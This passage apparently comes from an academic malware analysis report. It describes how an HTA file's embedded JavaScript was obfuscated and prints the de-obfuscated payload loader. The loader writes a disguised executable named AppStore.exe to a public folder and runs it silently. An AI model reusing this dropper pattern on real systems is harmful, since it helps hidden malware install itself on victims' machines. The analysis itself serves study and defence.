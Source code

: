 The only contents of the \acrshort{HTA} are an empty body and an \acrshort{HTML} script tag containing the payload
loader, so we don't deem it necessary to discuss it and will focus solely on the JavaScript contents of the script
tag. 

It is evident that the attackers wanted this part of the malware code to be the hardest to analyse, as it is more
heavily obfuscated than any other part of the code we analysed. Only the second-stage payload which we didn't 
analyse or recreate was more obfuscated. These obfuscations are mostly symbolic in nature, relying on quirks of the
JavaScript programming language as well as string encoding, usage of hexadecimal numbers instead of decimal numbers,
as well as indirection in array accesses.

As a first step in our re-implementation process, we reconstructed the original source code by de-obfuscating the 
program. It is important to note that the code is de-obfuscated to run using Microsoft JScript and isn't necessarily 
the simplest or most elegant way to write the program, adhering to modern JavaScript best-practices.

\begin{lstlisting}[language=JavaScript, caption={Unobfuscated payload loader}][H]
window.resizeTo(0, 0)
try {
  var data = [104,101, ... ] // payload 
  var path = "C:\\Users\\Public\\Libraries\\AppStore.exe"
  var fso = new ActiveXObject("Scripting.FileSystemObject")

  var content = ''
  for (var i = 0; i < data.length; i++) {
    content.push(String.fromCharCode(data[i]))
  }

  var file = fso.CreateTextFile(path, true)
  file.Write("MZ")
  file.Close()

  file = fso.OpenTextFile(path, 8, false, -1)
  file.Write(content)
  file.Close()
  var shell = new ActiveXObject("WScript.Shell")
  shell.Run(path, 0)

} catch (error) {}
window.close()
\end{lstlisting}

When looking at this unobfuscated source code, the functionality of the program as a whole is clear -- it uses Microsoft
Windows native tools available in Microsoft JScript to create a file (\verb+AppStore.exe+) and writes \verb+MZ+ to it,
followed by strings obtained from an array of 16-bit numbers, then it runs the file.

